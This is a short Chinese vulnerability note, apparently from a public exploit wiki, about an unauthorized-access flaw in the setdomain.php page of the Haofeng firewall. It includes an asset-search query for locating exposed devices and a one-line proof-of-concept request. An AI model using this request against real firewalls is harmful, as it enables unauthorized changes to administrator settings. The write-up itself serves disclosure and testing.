 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

<a-checkbox checked>皓峰防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="皓峰防火墙系统登录"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628674369654-1d15b168-135b-408c-8ded-1006c68641c3.png)

验证POC

```php
/setdomain.php?action=list
```

![img](/assets/PeiQi-Wiki/img/1628674436226-bfc169f9-a2c1-4e15-9704-0ade0de81ab2.png)



若有收获，就点个赞吧